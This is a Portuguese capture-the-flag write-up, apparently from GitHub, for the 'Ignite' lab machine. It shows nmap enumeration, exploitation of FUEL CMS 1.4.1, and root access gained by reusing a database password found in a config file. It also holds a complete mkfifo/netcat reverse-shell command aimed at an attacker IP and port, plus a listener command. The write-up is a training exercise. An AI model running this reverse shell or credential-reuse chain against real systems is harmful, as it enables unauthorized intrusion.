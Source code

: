 Ignite:
Começamos adicionando o $ip no arquivo hosts

sudo echo "$ip" >> /etc/hosts

Começamos com um nmap para identificar serviços e softwares no servidor:

  nmap ignite.thm -sV
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS

Robots Content:
Disallow: /fuel/

Acessando o diretorio contido em robots.txt, ignite.thm/fuel, deparamos com um CMS de versão 1.4.1 com uma CVE-2019-16763
#FUEL CMS
#Version: <= 1.4.1
#CVE-2018-16763
#Tested on: Ubuntu - Apache2 - php5

Baixamos o exploit para esta CVE e conseguimos uma shell simples para o servidor, acessando como o usuario www-data

Usando FIFO, vamos criar um arquivo em /tmp/

O arquivo FIFO é criado vazio e atua como um canal de comunicação entre processos.
Um processo pode escrever dados no FIFO, enquanto outro processo pode lê-los
Assim, com o comando abaixo vamos criar uma shell mais completa para proseguir com o CTF

rm /tmp/shell;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.44.97 44444>/tmp/f

rm remove qualquer arquivo chamado shell em /tmp
mkfifo cria o arquivo fifo chamado f em /tmp
usamos o cat /tmp/f para fazer a leitura do arquivo fifo = f em /tmp/f
em seguida, jogamos a saida através do PIPE | para um nc reverso na máquina atacante.

"NA MÀQUINA ATTACANTE, EXEUTAMOS O COMANDO   #nc -nlvp 44444"
Assim, quando for executado o comando acima, vamos obter uma shell melhorada, em seguida


Verificamos se possui python usando
locate python3,
python3 -c 'import pty;pty.spawn("/bin/bash")'



Analisando arquivos de configurações do próprio sistema WEB Fuel CMS, achamos o seguinte arquivo.

" -rwxrwxrwx 1 root root 4646 Jul 26  2019 /var/www/html/fuel/application/config/database.php "

Listando as permissoes do arquivo, de propriedade do ROOT com permissao de escrita e leitura para todos usuarios do sistema.
Achamos um arquivo de configuração e aberto para leitura.

Searching passwords in config PHP files
/var/www/html/fuel/application/config/database.php:     'password' => '???????',


Isso nos remete a ideia de nao manter senhas iguais em varios lugares, ali se trata da senha do banco de dados, surpresa, ao tentar fazer login com o usuario root (su root)
a senha exatamente a mesma.

Conseguindo o ROOT e as flags

User
???????????????????????????????.flag
root
???????????????????????????????.flag
